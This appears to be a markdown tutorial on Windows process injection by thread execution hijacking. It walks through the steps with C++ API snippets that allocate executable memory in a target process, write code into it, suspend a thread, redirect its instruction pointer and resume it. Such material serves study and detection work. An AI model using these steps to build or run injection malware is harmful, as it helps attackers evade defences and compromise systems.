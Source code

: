 # Process Injection: Thread Execution Hijacking

## Overview

Process injection is a technique used by attackers to inject malicious code into the address space of another process. This allows them to prevent detection and elevate privileges. 

One of the sub-techniques of process injection is Thread Execution Hijacking, also known as Suspend, Inject, and Resume (SIR). This technique avoids the creation of new processes or threads, which can be noisy and more easily detected by security measures.

## High-Level Steps

Thread execution hijacking can be broken down into the following high-level steps:

1. **Locate and open a target process to control.**
2. **Allocate a memory region for malicious code.**
3. **Write malicious code to the allocated memory.**
4. **Identify the thread ID of the target thread to hijack.**
5. **Open the target thread.**
6. **Suspend the target thread.**
7. **Obtain the thread context.**
8. **Update the instruction pointer to the malicious code.**
9. **Rewrite the target thread context.**
10. **Resume the hijacked thread.**

## Detailed Steps

### 1. Locate and Open a Target Process to Control

The attacker identifies a running process to hijack, usually one with higher privileges or access to sensitive information. Functions like `CreateToolhelp32Snapshot()`, `Thread32First()`, and `Thread32Next()` are used to enumerate through the existing threads of a target process.

#### CreateTOolhelp32Snapshort() : Takes a snapshot of the specified processes, as well as the heaps, modules, and threads used by these processes. It inclues lot of parameters such as

***Snapshot: A collection of system objects captured at a point in time***

- TH32CS_SNAPHEAPLIST: Includes the heap list of the process specified in th32ProcessID.
- TH32CS_SNAPPROCESS: Includes all processes in the system.
- TH32CS_SNAPTHREAD: Includes all threads in the system.
- TH32CS_SNAPMODULE: Includes all modules of the process specified in th32ProcessID.
- TH32CS_SNAPMODULE32: Includes all 32-bit modules of the process specified in th32ProcessID when running on a 64-bit system.
- TH32CS_SNAPALL: Includes all of the above.

#### Thread32First() : Retrieves information about the first thread of any process encountered in a system snapshot.

```cpp
THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specified process
    TH32CS_SNAPTHREAD, // Include all threads in the system
    0 // Indicates the current process
);
Bool Thread32First( // Obtains the first thread in the snapshot
    hSnapshot, // Handle of the snapshot
    &threadEntry // Pointer to the THREADENTRY32 structure
    // Describes an entry from a list of the threads executing in the system when a snapshot was taken.
);

while (Thread32Next( // Obtains the next thread in the snapshot
    hSnapshot, // Handle of the snapshot
    &threadEntry // Pointer to the THREADENTRY32 structure
)) {
    // Iterate through threads
}
```

### 2. Allocate Memory Region for Malicious Code

Memory within the address space of the target process is allocated for the malicious code using `VirtualAllocEx`.

```cpp 
LPVOID pRemoteCode = VirtualAllocEx(hProcess, NULL, payloadSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

```
### 3. Write Malicious Code to Allocated Memory

The attacker writes the malicious code or a DLL path into the allocated memory using `WriteProcessMemory`.

```cpp 
WriteProcessMemory(hProcess, pRemoteCode, payload, payloadSize, NULL);

```

### 4. Identify the Thread ID of the Target Thread to Hijack

Enumerate through the threads of the target process to find the thread to hijack, using the `THREADENTRY32` structure and functions like `Thread32First` and `Thread32Next`.

### 5. Open the Target Thread

Using `OpenThread`, the attacker obtains a handle to the target thread.

```cpp
HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, targetThreadId);

 ```

### 6. Suspend the Target Thread

The identified thread within the process is suspended using the `SuspendThread` API call.
```cpp
SuspendThread(hThread);
```

### 7. Obtain the Thread Context

The context of the suspended thread, which includes the thread's register states and execution pointers, is retrieved using `GetThreadContext`.

```cpp
CONTEXT ctx;
ctx.ContextFlags = CONTEXT_CONTROL;
GetThreadContext(hThread, &ctx);
```

### 8. Update the Instruction Pointer to the Malicious Code

The instruction pointer in the thread's context is updated to point to the address of the injected malicious code.

```cpp
ctx.Rip = (DWORD64)pRemoteCode; // For 64-bit systems
```

### 9. Rewrite the Target Thread Context

The modified context is then written back to the thread using `SetThreadContext`.

```cpp
SetThreadContext(hThread, &ctx);

```

### 10. Resume the Hijacked Thread

Finally, the thread is resumed using the `ResumeThread` API call, causing it to execute the injected malicious code.

```cpp
ResumeThread(hThread);

```
